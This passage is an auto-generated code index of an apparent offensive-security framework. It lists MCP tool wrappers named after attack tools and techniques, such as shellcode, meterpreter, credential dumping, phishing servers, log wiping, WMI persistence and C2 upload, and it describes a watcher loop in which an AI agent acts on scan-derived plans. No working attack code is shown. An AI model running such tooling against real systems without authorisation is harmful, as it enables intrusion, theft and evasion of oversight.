- `_gen_mitre_test` (line 3594) `def _gen_mitre_test(arguments, tool_name, _cmd)`
- `_gen_mkrc` (line 3602) `def _gen_mkrc(arguments, tool_name, _cmd)`
- `_gen_morse` (line 3610) `def _gen_morse(arguments, tool_name, _cmd)`
- `_gen_mqtt_check_py` (line 3618) `def _gen_mqtt_check_py(arguments, tool_name, _cmd)`
- `_gen_ms08_067_netapi` (line 3626) `def _gen_ms08_067_netapi(arguments, tool_name, _cmd)`
- `_gen_msf` (line 3634) `def _gen_msf(arguments, tool_name, _cmd)`
- `_gen_msfpc` (line 3642) `def _gen_msfpc(arguments, tool_name, _cmd)`
- `_gen_msfrpc` (line 3650) `def _gen_msfrpc(arguments, tool_name, _cmd)`
- `_gen_msfshellcoder` (line 3658) `def _gen_msfshellcoder(arguments, tool_name, _cmd)`
- `_gen_mssqlcli` (line 3666) `def _gen_mssqlcli(arguments, tool_name, _cmd)`
- `_gen_mutate_shellcode` (line 3674) `def _gen_mutate_shellcode(arguments, tool_name, _cmd)`
- `_gen_my_playbook` (line 3682) `def _gen_my_playbook(arguments, tool_name, _cmd)`
- `_gen_name_the_hash` (line 3690) `def _gen_name_the_hash(arguments, tool_name, _cmd)`
- `_gen_nano` (line 3698) `def _gen_nano(arguments, tool_name, _cmd)`
- `_gen_nbtscan` (line 3706) `def _gen_nbtscan(arguments, tool_name, _cmd)`
- `_gen_nc` (line 3714) `def _gen_nc(arguments, tool_name, _cmd)`
- `_gen_neighbors` (line 3722) `def _gen_neighbors(arguments, tool_name, _cmd)`
- `_gen_net_rpc_addmem` (line 3730) `def _gen_net_rpc_addmem(arguments, tool_name, _cmd)`
- `_gen_netexec` (line 3738) `def _gen_netexec(arguments, tool_name, _cmd)`
- `_gen_netview` (line 3746) `def _gen_netview(arguments, tool_name, _cmd)`
- `_gen_news` (line 3754) `def _gen_news(arguments, tool_name, _cmd)`
- `_gen_next` (line 3762) `def _gen_next(arguments, tool_name, _cmd)`
- `_gen_ngrok` (line 3770) `def _gen_ngrok(arguments, tool_name, _cmd)`
- `_gen_nikto` (line 3778) `def _gen_nikto(arguments, tool_name, _cmd)`
- `_gen_nmapscript` (line 3786) `def _gen_nmapscript(arguments, tool_name, _cmd)`
- `_gen_nmapscripthelp` (line 3794) `def _gen_nmapscripthelp(arguments, tool_name, _cmd)`
- `_gen_note` (line 3802) `def _gen_note(arguments, tool_name, _cmd)`
- `_gen_notify` (line 3810) `def _gen_notify(arguments, tool_name, _cmd)`
- `_gen_ntpdate` (line 3818) `def _gen_ntpdate(arguments, tool_name, _cmd)`
- `_gen_nuclei` (line 3826) `def _gen_nuclei(arguments, tool_name, _cmd)`
- `_gen_odat` (line 3834) `def _gen_odat(arguments, tool_name, _cmd)`
- `_gen_ofuscate_string` (line 3842) `def _gen_ofuscate_string(arguments, tool_name, _cmd)`
- `_gen_ofuscatesh` (line 3850) `def _gen_ofuscatesh(arguments, tool_name, _cmd)`
- `_gen_ofuscatorps1` (line 3858) `def _gen_ofuscatorps1(arguments, tool_name, _cmd)`
- `_gen_op_create` (line 3866) `def _gen_op_create(arguments, tool_name, _cmd)`
- `_gen_op_list` (line 3874) `def _gen_op_list(arguments, tool_name, _cmd)`
- `_gen_op_pause` (line 3882) `def _gen_op_pause(arguments, tool_name, _cmd)`
- `_gen_op_plan` (line 3890) `def _gen_op_plan(arguments, tool_name, _cmd)`
- `_gen_op_report` (line 3898) `def _gen_op_report(arguments, tool_name, _cmd)`
- `_gen_op_resume` (line 3906) `def _gen_op_resume(arguments, tool_name, _cmd)`
- `_gen_op_start` (line 3914) `def _gen_op_start(arguments, tool_name, _cmd)`
- `_gen_op_status` (line 3922) `def _gen_op_status(arguments, tool_name, _cmd)`
- `_gen_op_stop` (line 3930) `def _gen_op_stop(arguments, tool_name, _cmd)`
- `_gen_op_timeline` (line 3938) `def _gen_op_timeline(arguments, tool_name, _cmd)`
- `_gen_openredirex` (line 3946) `def _gen_openredirex(arguments, tool_name, _cmd)`
- `_gen_openssl_sclient` (line 3954) `def _gen_openssl_sclient(arguments, tool_name, _cmd)`
- `_gen_operator_create` (line 3962) `def _gen_operator_create(arguments, tool_name, _cmd)`
- `_gen_operator_delete` (line 3970) `def _gen_operator_delete(arguments, tool_name, _cmd)`
- `_gen_operator_load` (line 3978) `def _gen_operator_load(arguments, tool_name, _cmd)`
- `_gen_operators` (line 3986) `def _gen_operators(arguments, tool_name, _cmd)`
- `_gen_opsec` (line 3994) `def _gen_opsec(arguments, tool_name, _cmd)`
- `_gen_orchestrate` (line 4002) `def _gen_orchestrate(arguments, tool_name, _cmd)`
- `_gen_osmedeus` (line 4010) `def _gen_osmedeus(arguments, tool_name, _cmd)`
- `_gen_owneredit` (line 4018) `def _gen_owneredit(arguments, tool_name, _cmd)`
- `_gen_package_squat` (line 4026) `def _gen_package_squat(arguments, tool_name, _cmd)`
- `_gen_padbuster` (line 4034) `def _gen_padbuster(arguments, tool_name, _cmd)`
- `_gen_palette_k` (line 4042) `def _gen_palette_k(arguments, tool_name, _cmd)`
- `_gen_paranoid_meterpreter` (line 4050) `def _gen_paranoid_meterpreter(arguments, tool_name, _cmd)`
- `_gen_parsero` (line 4058) `def _gen_parsero(arguments, tool_name, _cmd)`
- `_gen_parth` (line 4066) `def _gen_parth(arguments, tool_name, _cmd)`
- `_gen_passtightvnc` (line 4074) `def _gen_passtightvnc(arguments, tool_name, _cmd)`
- `_gen_passwordspray` (line 4082) `def _gen_passwordspray(arguments, tool_name, _cmd)`
- `_gen_path2hex` (line 4090) `def _gen_path2hex(arguments, tool_name, _cmd)`
- `_gen_payload` (line 4098) `def _gen_payload(arguments, tool_name, _cmd)`
- `_gen_penelope` (line 4106) `def _gen_penelope(arguments, tool_name, _cmd)`
- `_gen_pentest_report` (line 4114) `def _gen_pentest_report(arguments, tool_name, _cmd)`
- `_gen_pezorsh` (line 4122) `def _gen_pezorsh(arguments, tool_name, _cmd)`
- `_gen_phase` (line 4130) `def _gen_phase(arguments, tool_name, _cmd)`
- `_gen_phish_report` (line 4138) `def _gen_phish_report(arguments, tool_name, _cmd)`
- `_gen_phish_serve` (line 4146) `def _gen_phish_serve(arguments, tool_name, _cmd)`
- `_gen_phish_wizard` (line 4154) `def _gen_phish_wizard(arguments, tool_name, _cmd)`
- `_gen_ping` (line 4162) `def _gen_ping(arguments, tool_name, _cmd)`
- `_gen_pip_proxy` (line 4170) `def _gen_pip_proxy(arguments, tool_name, _cmd)`
- `_gen_pip_repo` (line 4178) `def _gen_pip_repo(arguments, tool_name, _cmd)`
- `_gen_pipeline` (line 4186) `def _gen_pipeline(arguments, tool_name, _cmd)`
- `_gen_pivot` (line 4194) `def _gen_pivot(arguments, tool_name, _cmd)`
- `_gen_pivot_kill` (line 4202) `def _gen_pivot_kill(arguments, tool_name, _cmd)`
- `_gen_pivot_proxy` (line 4210) `def _gen_pivot_proxy(arguments, tool_name, _cmd)`
- `_gen_pivot_scan` (line 4218) `def _gen_pivot_scan(arguments, tool_name, _cmd)`
- `_gen_plan` (line 4226) `def _gen_plan(arguments, tool_name, _cmd)`
- `_gen_plan_apply` (line 4234) `def _gen_plan_apply(arguments, tool_name, _cmd)`
- `_gen_plan_detail` (line 4242) `def _gen_plan_detail(arguments, tool_name, _cmd)`
- `_gen_pop` (line 4250) `def _gen_pop(arguments, tool_name, _cmd)`
- `_gen_portdiscover` (line 4258) `def _gen_portdiscover(arguments, tool_name, _cmd)`
- `_gen_ports` (line 4266) `def _gen_ports(arguments, tool_name, _cmd)`
- `_gen_portservicediscover` (line 4274) `def _gen_portservicediscover(arguments, tool_name, _cmd)`
- `_gen_powerserver` (line 4282) `def _gen_powerserver(arguments, tool_name, _cmd)`
- `_gen_powershell_cmd_stager` (line 4290) `def _gen_powershell_cmd_stager(arguments, tool_name, _cmd)`
- `_gen_pre2k` (line 4298) `def _gen_pre2k(arguments, tool_name, _cmd)`
- `_gen_prev` (line 4306) `def _gen_prev(arguments, tool_name, _cmd)`
- `_gen_printerbug_py` (line 4314) `def _gen_printerbug_py(arguments, tool_name, _cmd)`
- `_gen_privesc_suggest` (line 4322) `def _gen_privesc_suggest(arguments, tool_name, _cmd)`
- `_gen_process_scans` (line 4330) `def _gen_process_scans(arguments, tool_name, _cmd)`
- `_gen_proxy` (line 4338) `def _gen_proxy(arguments, tool_name, _cmd)`
- `_gen_psexec` (line 4346) `def _gen_psexec(arguments, tool_name, _cmd)`
- `_gen_psexec_py` (line 4354) `def _gen_psexec_py(arguments, tool_name, _cmd)`
- `_gen_pspy` (line 4362) `def _gen_pspy(arguments, tool_name, _cmd)`
- `_gen_pth_net` (line 4370) `def _gen_pth_net(arguments, tool_name, _cmd)`
- `_gen_pup` (line 4378) `def _gen_pup(arguments, tool_name, _cmd)`
- `_gen_pwd` (line 4386) `def _gen_pwd(arguments, tool_name, _cmd)`
- `_gen_pwncat` (line 4394) `def _gen_pwncat(arguments, tool_name, _cmd)`
- `_gen_pwncatcs` (line 4402) `def _gen_pwncatcs(arguments, tool_name, _cmd)`
- `_gen_py3ttyup` (line 4410) `def _gen_py3ttyup(arguments, tool_name, _cmd)`
- `_gen_pyautomate` (line 4418) `def _gen_pyautomate(arguments, tool_name, _cmd)`
- `_gen_pykerbrute` (line 4426) `def _gen_pykerbrute(arguments, tool_name, _cmd)`
- `_gen_pyoracle2` (line 4434) `def _gen_pyoracle2(arguments, tool_name, _cmd)`
- `_gen_pywhisker` (line 4442) `def _gen_pywhisker(arguments, tool_name, _cmd)`
- `_gen_qa` (line 4450) `def _gen_qa(arguments, tool_name, _cmd)`
- `_gen_rdp` (line 4458) `def _gen_rdp(arguments, tool_name, _cmd)`
- `_gen_rdp_check_py` (line 4466) `def _gen_rdp_check_py(arguments, tool_name, _cmd)`
- `_gen_recon` (line 4474) `def _gen_recon(arguments, tool_name, _cmd)`
- `_gen_refill_password` (line 4482) `def _gen_refill_password(arguments, tool_name, _cmd)`
- `_gen_reg_py` (line 4490) `def _gen_reg_py(arguments, tool_name, _cmd)`
- `_gen_regeorg` (line 4498) `def _gen_regeorg(arguments, tool_name, _cmd)`
- `_gen_rejetto_hfs_exec` (line 4506) `def _gen_rejetto_hfs_exec(arguments, tool_name, _cmd)`
- `_gen_reload_addons` (line 4514) `def _gen_reload_addons(arguments, tool_name, _cmd)`
- `_gen_report` (line 4522) `def _gen_report(arguments, tool_name, _cmd)`
- `_gen_resource` (line 4530) `def _gen_resource(arguments, tool_name, _cmd)`
- `_gen_responder` (line 4538) `def _gen_responder(arguments, tool_name, _cmd)`
- `_gen_rev` (line 4546) `def _gen_rev(arguments, tool_name, _cmd)`
- `_gen_revwin` (line 4554) `def _gen_revwin(arguments, tool_name, _cmd)`
- `_gen_rhost` (line 4562) `def _gen_rhost(arguments, tool_name, _cmd)`
- `_gen_rich_tui` (line 4570) `def _gen_rich_tui(arguments, tool_name, _cmd)`
- `_gen_rmfromfind` (line 4578) `def _gen_rmfromfind(arguments, tool_name, _cmd)`
- `_gen_rnc` (line 4586) `def _gen_rnc(arguments, tool_name, _cmd)`
- `_gen_rocky` (line 4594) `def _gen_rocky(arguments, tool_name, _cmd)`
- `_gen_rot` (line 4602) `def _gen_rot(arguments, tool_name, _cmd)`
- `_gen_rotate_aes` (line 4610) `def _gen_rotate_aes(arguments, tool_name, _cmd)`
- `_gen_rotf` (line 4618) `def _gen_rotf(arguments, tool_name, _cmd)`
- `_gen_route` (line 4626) `def _gen_route(arguments, tool_name, _cmd)`
- `_gen_rpcclient` (line 4634) `def _gen_rpcclient(arguments, tool_name, _cmd)`
- `_gen_rpcdump` (line 4642) `def _gen_rpcdump(arguments, tool_name, _cmd)`
- `_gen_rpcmap_py` (line 4650) `def _gen_rpcmap_py(arguments, tool_name, _cmd)`
- `_gen_rrhost` (line 4658) `def _gen_rrhost(arguments, tool_name, _cmd)`
- `_gen_rsync` (line 4666) `def _gen_rsync(arguments, tool_name, _cmd)`
- `_gen_rubeus` (line 4674) `def _gen_rubeus(arguments, tool_name, _cmd)`
- `_gen_run` (line 4682) `def _gen_run(arguments, tool_name, _cmd)`
- `_gen_samdump2` (line 4690) `def _gen_samdump2(arguments, tool_name, _cmd)`
- `_gen_samrdump` (line 4698) `def _gen_samrdump(arguments, tool_name, _cmd)`
- `_gen_sandbox` (line 4706) `def _gen_sandbox(arguments, tool_name, _cmd)`
- `_gen_sawks` (line 4714) `def _gen_sawks(arguments, tool_name, _cmd)`
- `_gen_scans` (line 4722) `def _gen_scans(arguments, tool_name, _cmd)`
- `_gen_scarecrow` (line 4730) `def _gen_scarecrow(arguments, tool_name, _cmd)`
- `_gen_scavenger` (line 4738) `def _gen_scavenger(arguments, tool_name, _cmd)`
- `_gen_scope` (line 4746) `def _gen_scope(arguments, tool_name, _cmd)`
- `_gen_scp` (line 4754) `def _gen_scp(arguments, tool_name, _cmd)`
- `_gen_seal_credentials` (line 4762) `def _gen_seal_credentials(arguments, tool_name, _cmd)`
- `_gen_search` (line 4770) `def _gen_search(arguments, tool_name, _cmd)`
- `_gen_searchhash` (line 4778) `def _gen_searchhash(arguments, tool_name, _cmd)`
- `_gen_secretsdump` (line 4786) `def _gen_secretsdump(arguments, tool_name, _cmd)`
- `_gen_seo` (line 4794) `def _gen_seo(arguments, tool_name, _cmd)`
- `_gen_serveralive2` (line 4802) `def _gen_serveralive2(arguments, tool_name, _cmd)`
- `_gen_service` (line 4810) `def _gen_service(arguments, tool_name, _cmd)`
- `_gen_service_ssh` (line 4818) `def _gen_service_ssh(arguments, tool_name, _cmd)`
- `_gen_sessionssh` (line 4826) `def _gen_sessionssh(arguments, tool_name, _cmd)`
- `_gen_sessionsshstrace` (line 4834) `def _gen_sessionsshstrace(arguments, tool_name, _cmd)`
- `_gen_set` (line 4842) `def _gen_set(arguments, tool_name, _cmd)`
- `_gen_set_proxychains` (line 4850) `def _gen_set_proxychains(arguments, tool_name, _cmd)`
- `_gen_setoolKits` (line 4858) `def _gen_setoolKits(arguments, tool_name, _cmd)`
- `_gen_sh` (line 4866) `def _gen_sh(arguments, tool_name, _cmd)`
- `_gen_shadowsocks` (line 4874) `def _gen_shadowsocks(arguments, tool_name, _cmd)`
- `_gen_share_finding` (line 4882) `def _gen_share_finding(arguments, tool_name, _cmd)`
- `_gen_sharpshooter` (line 4890) `def _gen_sharpshooter(arguments, tool_name, _cmd)`
- `_gen_shellcode` (line 4898) `def _gen_shellcode(arguments, tool_name, _cmd)`
- `_gen_shellcode2elf` (line 4906) `def _gen_shellcode2elf(arguments, tool_name, _cmd)`
- `_gen_shellcode2sylk` (line 4914) `def _gen_shellcode2sylk(arguments, tool_name, _cmd)`
- `_gen_shellcode_search` (line 4922) `def _gen_shellcode_search(arguments, tool_name, _cmd)`
- `_gen_shellfire` (line 4930) `def _gen_shellfire(arguments, tool_name, _cmd)`
- `_gen_shellshock` (line 4938) `def _gen_shellshock(arguments, tool_name, _cmd)`
- `_gen_sherlock` (line 4946) `def _gen_sherlock(arguments, tool_name, _cmd)`
- `_gen_show` (line 4954) `def _gen_show(arguments, tool_name, _cmd)`
- `_gen_shred` (line 4962) `def _gen_shred(arguments, tool_name, _cmd)`
- `_gen_sireprat` (line 4970) `def _gen_sireprat(arguments, tool_name, _cmd)`
- `_gen_sitrep` (line 4978) `def _gen_sitrep(arguments, tool_name, _cmd)`
- `_gen_skipfish` (line 4986) `def _gen_skipfish(arguments, tool_name, _cmd)`
- `_gen_sliver_server` (line 4994) `def _gen_sliver_server(arguments, tool_name, _cmd)`
- `_gen_smalldic` (line 5002) `def _gen_smalldic(arguments, tool_name, _cmd)`
- `_gen_smb_exfil` (line 5010) `def _gen_smb_exfil(arguments, tool_name, _cmd)`
- `_gen_smbattack` (line 5018) `def _gen_smbattack(arguments, tool_name, _cmd)`
- `_gen_smbclient` (line 5026) `def _gen_smbclient(arguments, tool_name, _cmd)`
- `_gen_smbclient_impacket` (line 5034) `def _gen_smbclient_impacket(arguments, tool_name, _cmd)`
- `_gen_smbclient_py` (line 5042) `def _gen_smbclient_py(arguments, tool_name, _cmd)`
- `_gen_smbmap` (line 5050) `def _gen_smbmap(arguments, tool_name, _cmd)`
- `_gen_smbserver` (line 5058) `def _gen_smbserver(arguments, tool_name, _cmd)`
- `_gen_smtpuserenum` (line 5066) `def _gen_smtpuserenum(arguments, tool_name, _cmd)`
- `_gen_snmpcheck` (line 5074) `def _gen_snmpcheck(arguments, tool_name, _cmd)`
- `_gen_snmpwalk` (line 5082) `def _gen_snmpwalk(arguments, tool_name, _cmd)`
- `_gen_socat` (line 5090) `def _gen_socat(arguments, tool_name, _cmd)`
- `_gen_spool` (line 5098) `def _gen_spool(arguments, tool_name, _cmd)`
- `_gen_spraykatz` (line 5106) `def _gen_spraykatz(arguments, tool_name, _cmd)`
- `_gen_sqli` (line 5114) `def _gen_sqli(arguments, tool_name, _cmd)`
- `_gen_sqli_mssql_test` (line 5122) `def _gen_sqli_mssql_test(arguments, tool_name, _cmd)`
- `_gen_sqlmap` (line 5130) `def _gen_sqlmap(arguments, tool_name, _cmd)`
- `_gen_sqsh` (line 5138) `def _gen_sqsh(arguments, tool_name, _cmd)`
- `_gen_ss` (line 5146) `def _gen_ss(arguments, tool_name, _cmd)`
- `_gen_ssh` (line 5154) `def _gen_ssh(arguments, tool_name, _cmd)`
- `_gen_ssh_cmd` (line 5162) `def _gen_ssh_cmd(arguments, tool_name, _cmd)`
- `_gen_sshd` (line 5170) `def _gen_sshd(arguments, tool_name, _cmd)`
- `_gen_sshexploit` (line 5178) `def _gen_sshexploit(arguments, tool_name, _cmd)`
- `_gen_sshkey` (line 5186) `def _gen_sshkey(arguments, tool_name, _cmd)`
- `_gen_sslscan` (line 5194) `def _gen_sslscan(arguments, tool_name, _cmd)`
- `_gen_stage` (line 5202) `def _gen_stage(arguments, tool_name, _cmd)`
- `_gen_state_snapshot` (line 5210) `def _gen_state_snapshot(arguments, tool_name, _cmd)`
- `_gen_status_bar` (line 5218) `def _gen_status_bar(arguments, tool_name, _cmd)`
- `_gen_status_tail` (line 5226) `def _gen_status_tail(arguments, tool_name, _cmd)`
- `_gen_stealth_off` (line 5234) `def _gen_stealth_off(arguments, tool_name, _cmd)`
- `_gen_stealth_on` (line 5242) `def _gen_stealth_on(arguments, tool_name, _cmd)`
- `_gen_stormbreaker` (line 5250) `def _gen_stormbreaker(arguments, tool_name, _cmd)`
- `_gen_sudo` (line 5258) `def _gen_sudo(arguments, tool_name, _cmd)`
- `_gen_suggest_next` (line 5266) `def _gen_suggest_next(arguments, tool_name, _cmd)`
- `_gen_suid_check` (line 5274) `def _gen_suid_check(arguments, tool_name, _cmd)`
- `_gen_surface` (line 5282) `def _gen_surface(arguments, tool_name, _cmd)`
- `_gen_swaks` (line 5290) `def _gen_swaks(arguments, tool_name, _cmd)`
- `_gen_sys` (line 5298) `def _gen_sys(arguments, tool_name, _cmd)`
- `_gen_tab` (line 5306) `def _gen_tab(arguments, tool_name, _cmd)`
- `_gen_targetedKerberoas` (line 5314) `def _gen_targetedKerberoas(arguments, tool_name, _cmd)`
- `_gen_tasks` (line 5322) `def _gen_tasks(arguments, tool_name, _cmd)`
- `_gen_tcpdump_capture` (line 5330) `def _gen_tcpdump_capture(arguments, tool_name, _cmd)`
- `_gen_tcpdump_icmp` (line 5338) `def _gen_tcpdump_icmp(arguments, tool_name, _cmd)`
- `_gen_team_chat` (line 5346) `def _gen_team_chat(arguments, tool_name, _cmd)`
- `_gen_team_status` (line 5354) `def _gen_team_status(arguments, tool_name, _cmd)`
- `_gen_template_helper_serializer` (line 5362) `def _gen_template_helper_serializer(arguments, tool_name, _cmd)`
- `_gen_tenant` (line 5372) `def _gen_tenant(arguments, tool_name, _cmd)`
- `_gen_tgrep` (line 5380) `def _gen_tgrep(arguments, tool_name, _cmd)`
- `_gen_ticketer` (line 5388) `def _gen_ticketer(arguments, tool_name, _cmd)`
- `_gen_timeline_browser` (line 5396) `def _gen_timeline_browser(arguments, tool_name, _cmd)`
- `_gen_toast_clear` (line 5404) `def _gen_toast_clear(arguments, tool_name, _cmd)`
- `_gen_toctoc` (line 5412) `def _gen_toctoc(arguments, tool_name, _cmd)`
- `_gen_tord` (line 5420) `def _gen_tord(arguments, tool_name, _cmd)`
- `_gen_trace` (line 5428) `def _gen_trace(arguments, tool_name, _cmd)`
- `_gen_transform` (line 5436) `def _gen_transform(arguments, tool_name, _cmd)`
- `_gen_trufflehog` (line 5444) `def _gen_trufflehog(arguments, tool_name, _cmd)`
- `_gen_tshark_analyze` (line 5452) `def _gen_tshark_analyze(arguments, tool_name, _cmd)`
- `_gen_ttp_matrix` (line 5460) `def _gen_ttp_matrix(arguments, tool_name, _cmd)`
- `_gen_ttp_rebuild` (line 5468) `def _gen_ttp_rebuild(arguments, tool_name, _cmd)`
- `_gen_ttp_show` (line 5476) `def _gen_ttp_show(arguments, tool_name, _cmd)`
- `_gen_tui_theme` (line 5484) `def _gen_tui_theme(arguments, tool_name, _cmd)`
- `_gen_unicode_WAFbypass` (line 5492) `def _gen_unicode_WAFbypass(arguments, tool_name, _cmd)`
- `_gen_unlock_target` (line 5500) `def _gen_unlock_target(arguments, tool_name, _cmd)`
- `_gen_unseal_credentials` (line 5508) `def _gen_unseal_credentials(arguments, tool_name, _cmd)`
- `_gen_unzip` (line 5516) `def _gen_unzip(arguments, tool_name, _cmd)`
- `_gen_upload_bypass` (line 5524) `def _gen_upload_bypass(arguments, tool_name, _cmd)`
- `_gen_upload_c2` (line 5532) `def _gen_upload_c2(arguments, tool_name, _cmd)`
- `_gen_upload_gofile` (line 5540) `def _gen_upload_gofile(arguments, tool_name, _cmd)`
- `_gen_urldecode` (line 5548) `def _gen_urldecode(arguments, tool_name, _cmd)`
- `_gen_urlencode` (line 5556) `def _gen_urlencode(arguments, tool_name, _cmd)`
- `_gen_use` (line 5564) `def _gen_use(arguments, tool_name, _cmd)`
- `_gen_username_anarchy` (line 5572) `def _gen_username_anarchy(arguments, tool_name, _cmd)`
- `_gen_utf` (line 5580) `def _gen_utf(arguments, tool_name, _cmd)`
- `_gen_v` (line 5588) `def _gen_v(arguments, tool_name, _cmd)`
- `_gen_veil` (line 5596) `def _gen_veil(arguments, tool_name, _cmd)`
- `_gen_vpn` (line 5604) `def _gen_vpn(arguments, tool_name, _cmd)`
- `_gen_vscan` (line 5612) `def _gen_vscan(arguments, tool_name, _cmd)`
- `_gen_vuln_list` (line 5620) `def _gen_vuln_list(arguments, tool_name, _cmd)`
- `_gen_vulns` (line 5628) `def _gen_vulns(arguments, tool_name, _cmd)`
- `_gen_waybackmachine` (line 5636) `def _gen_waybackmachine(arguments, tool_name, _cmd)`
- `_gen_weevely` (line 5644) `def _gen_weevely(arguments, tool_name, _cmd)`
- `_gen_weevelygen` (line 5652) `def _gen_weevelygen(arguments, tool_name, _cmd)`
- `_gen_wfuzz` (line 5660) `def _gen_wfuzz(arguments, tool_name, _cmd)`
- `_gen_whatweb` (line 5668) `def _gen_whatweb(arguments, tool_name, _cmd)`
- `_gen_whoami` (line 5676) `def _gen_whoami(arguments, tool_name, _cmd)`
- `_gen_wifipass` (line 5684) `def _gen_wifipass(arguments, tool_name, _cmd)`
- `_gen_winbase64payload` (line 5692) `def _gen_winbase64payload(arguments, tool_name, _cmd)`
- `_gen_windapsearch` (line 5700) `def _gen_windapsearch(arguments, tool_name, _cmd)`
- `_gen_windapsearchscrapeusers` (line 5708) `def _gen_windapsearchscrapeusers(arguments, tool_name, _cmd)`
- `_gen_winpeas` (line 5716) `def _gen_winpeas(arguments, tool_name, _cmd)`
- `_gen_wipe_free` (line 5724) `def _gen_wipe_free(arguments, tool_name, _cmd)`
- `_gen_wipe_logs` (line 5732) `def _gen_wipe_logs(arguments, tool_name, _cmd)`
- `_gen_wipe_timeline` (line 5740) `def _gen_wipe_timeline(arguments, tool_name, _cmd)`
- `_gen_wizard` (line 5748) `def _gen_wizard(arguments, tool_name, _cmd)`
- `_gen_wmi_lateral` (line 5756) `def _gen_wmi_lateral(arguments, tool_name, _cmd)`
- `_gen_wmi_persist` (line 5764) `def _gen_wmi_persist(arguments, tool_name, _cmd)`
- `_gen_wmi_scheduled_task` (line 5772) `def _gen_wmi_scheduled_task(arguments, tool_name, _cmd)`
- `_gen_wmiexec` (line 5780) `def _gen_wmiexec(arguments, tool_name, _cmd)`
- `_gen_wmiexecpro` (line 5788) `def _gen_wmiexecpro(arguments, tool_name, _cmd)`
- `_gen_wpscan` (line 5796) `def _gen_wpscan(arguments, tool_name, _cmd)`
- `_gen_wrapper` (line 5804) `def _gen_wrapper(arguments, tool_name, _cmd)`
- `_gen_www` (line 5812) `def _gen_www(arguments, tool_name, _cmd)`
- `_gen_xss` (line 5820) `def _gen_xss(arguments, tool_name, _cmd)`
- `_gen_xsstrike` (line 5828) `def _gen_xsstrike(arguments, tool_name, _cmd)`
- `_gen_yara_scan` (line 5836) `def _gen_yara_scan(arguments, tool_name, _cmd)`

#### `mcp_lazy.py`
**Path:** `skills/mcp_lazy.py`
**File Doc:** *Single helper behind every lazy optional import of the MCP server.  Each ``_ensure_*`` wrapper in ``lazyown_mcp`` used to repeat the same skeleton: return the cached flag when set, otherwise try the import, bind names on success, store False on failure. Centralising the skeleton here keeps one fail-closed policy (any import error disables the feature instead of crashing the server) while every wrapper only declares what to load.*

**Functions:**
- `ensure_optional` (line 18) `def ensure_optional(namespace, flag, loader)` - *Return the cached flag or run ``loader`` once to compute it.

Args:
    namespace: Module globals holding the flag and bound names.
    flag: Name of the availability flag inside ``namespace``.
    loader: Receives ``namespace``; binds imported names into it
        and returns True on success, False when it installed a
        fallback stub instead.

Returns:
    True when the optional dependency is usable, False otherwise.
    Any exception from ``loader`` fails closed to False.*

#### `mcp_tool_generator.py`
**Path:** `skills/mcp_tool_generator.py`
**File Doc:** *Auto-generate MCP tool handlers from cli/command_index.json.  Reads the full command catalog, compares against existing handlers in lazyown_mcp.py, and writes a new skills/mcp_generated_tools.py that can be imported by lazyown_mcp.py to close the coverage gap.  Usage: python3 skills/mcp_tool_generator.py              # generate + verify python3 skills/mcp_tool_generator.py --check       # CI mode: verify only python3 skills/mcp_tool_generator.py --limit 50    # generate top N only*

**Functions:**
- `load_command_index` (line 29) `def load_command_index()`
- `extract_commands` (line 34) `def extract_commands(index)` - *Return {command_name: summary} for all unique non-duplicate commands.

Strips the 'do_' prefix from method names so 'do_lazynmap' becomes 'lazynmap'.*
- `extract_existing_handlers` (line 55) `def extract_existing_handlers()` - *Parse lazyown_mcp.py for all defined MCP tool names.

Looks at both @register_handler decorators and name= strings
inside the list_tools() function return statement.*
- `sanitize_description` (line 72) `def sanitize_description(summary, max_len)` - *Truncate and clean a command summary for use as a tool description.*
- `sanitize_docstring` (line 85) `def sanitize_docstring(text)` - *Escape backslashes and quotes for triple-quoted docstrings.*
- `_build_tool_schema` (line 91) `def _build_tool_schema(command_param_name)` - *Return the JSON inputSchema for a single-arg command wrapper tool.*
- `generate_module` (line 106) `def generate_module(commands, existing_handlers, limit)` - *Build the complete Python source for mcp_generated_tools.py.

The generated file exports:
  - get_generated_tool_definitions() -> list[types.Tool]
  - register_all_generated_handlers(reg_fn, make_fn, run_fn) -> int*
- `verify_coverage` (line 203) `def verify_coverage(commands, existing_handlers)` - *Compare indexed commands against existing MCP tool coverage.

Returns (new, existing_match, missing_from_index) sets of tool names.*
- `main` (line 220) `def main()`

#### `sessions_watcher.py`
**Path:** `skills/sessions_watcher.py`
**File Doc:** *LazyOwn Sessions Watcher ======================== Watchdog daemon over sessions/.  When new or modified files appear, it:  scan_*.nmap (nmap text output) → calls VulnBot (or local Ollama fallback) to generate sessions/plan.txt → injects a PLAN_READY objective into objectives.jsonl → emits PLAN_READY event to events.jsonl  scan_*.nmap.xml (nmap XML) → calls FactStore.ingest_xml() → emits SCAN_XML_READY event  sessions/<ip>/<port>/<tool>/*.txt  (pwntomate tool output) → calls FactStore.ingest_text() → emits TOOL_OUTPUT_READY event → injects a factual objective: "Review <tool> output for <ip>:<port>"  sessions/plan.txt  (VulnBot or manual plan) → emits PLAN_UPDATED event with first 500 chars as preview  This closes the OpenClaw-style loop: lazynmap → watcher → plan.txt → objective injected → Claude Code polls → reasons → acts → new output → watcher fires again  Usage (background daemon):*

**Classes:**
- `_Handler` (line 375) `class _Handler(FileSystemEventHandler)`

**Functions:**
- `_emit` (line 123) `def _emit(event_type, severity, suggest, source)`
- `_call_ollama` (line 141) `def _call_ollama(prompt)`
- `_generate_plan_from_nmap` (line 154) `def _generate_plan_from_nmap(nmap_path)`
- `_minimal_plan_from_nmap` (line 175) `def _minimal_plan_from_nmap(content)`
- `_handle_nmap_txt` (line 204) `def _handle_nmap_txt(path)`
- `_handle_nmap_xml` (line 229) `def _handle_nmap_xml(path)`
- `_handle_tool_output` (line 257) `def _handle_tool_output(path)`
- `_handle_plan_updated` (line 318) `def _handle_plan_updated(path)`
- `_extract_target_from_filename` (line 331) `def _extract_target_from_filename(name)`
- `_dispatch` (line 346) `def _dispatch(path)`
- `_run_watchdog` (line 388) `def _run_watchdog()`
- `_run_poll_loop` (line 402) `def _run_poll_loop()`
- `main` (line 430) `def main()`
- `_scan` (line 406) `def _scan()`
- `_append_event` (line 96) `def _append_event(ev)`

**Methods:**
- `on_created` (line 376) `def on_created(self, event)`
- `on_modified` (line 380) `def on_modified(self, event)`

#### `swan_agent.py`
**Path:** `skills/swan_agent.py`
